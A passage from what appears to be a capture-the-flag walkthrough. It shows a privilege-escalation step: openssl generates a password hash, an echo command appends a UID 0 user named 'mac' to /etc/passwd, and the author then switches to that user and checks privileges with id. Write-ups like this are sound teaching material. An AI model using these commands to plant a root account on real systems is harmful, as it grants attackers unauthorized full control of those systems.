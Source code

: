 > Move to ssh login panel
> With following step, create a new user

```
openssl passwd -1 mac 
```

> username and password are 'mac'

![](./IMG/74.png)

> Write into /etc/passwd

```
echo 'mac:$1$kbqHn0/w$nkw.eIajwNOmFl2h2fK3u/:0:0:pwned:/root/bin/bash' >> /etc/passwd
```

![](./IMG/75.png)

> Login with mac

```
su - mac
```

![](./IMG/76.png)

> Check privilege 

```
id
```

![](./IMG/77.png)
